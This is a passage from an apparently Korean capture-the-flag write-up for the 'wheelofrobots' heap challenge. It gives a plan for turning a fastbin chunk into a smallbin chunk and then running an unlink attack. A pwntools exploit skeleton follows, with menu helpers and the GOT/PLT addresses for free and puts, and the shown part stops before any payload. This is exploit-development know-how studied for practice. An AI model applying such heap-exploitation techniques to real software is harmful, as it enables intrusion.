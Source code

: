 ```c
      return result;
  }
  return result;
}
```

robot의 이름을 설정하는 메뉴인데 할당한 size와 동일하게 입력하게 해주므로 특정 사이즈를 잘 이용해야 한다.

4번 메뉴는 무슨 이상한 그림 print 해주는건데 쓸모없는 메뉴 인듯..

결국 case 2 (fastbin) -> case 5 (fastbin -> smallbin) -> case 4(dummy chunk 이건 unlink하는데에는 지장없다. 나중을 위함) -> unlink 하면 pointer를 가질 수 있음!

```python
from pwn import *

t = process('./wheelofrobots')

r = lambda w: t.recvuntil(str(w))
s = lambda z: t.sendline(str(z))

def add(choice,size):
	r("Your choice : ")
	s("1")
	r("choice :")
	s(str(choice))
	r(":")
	s(str(size))

def add_fast():
	r("Your choice : ")
	s("1")
	r("choice :")
	s("1")

def add_large():
	r("Your choice : ")
	s("1")
	r("choice :")
	s("5")

def add_dummy():
	r("Your choice : ")
	s("1")
	r("choice :")
	s("4")

def modify(choice,name):
	r("Your choice : ")
	s("3")
	r("choice :")
	s(str(choice))
	r(":")
	t.send(str(name))

def remove(choice):
	r("Your choice : ")
	s("2")
	r("choice :")
	s(str(choice))

target = 0x6030f0
free_got = 0x0000000000603018
puts_plt = 0x0000000000400830
puts_got = 0x0000000000603028
```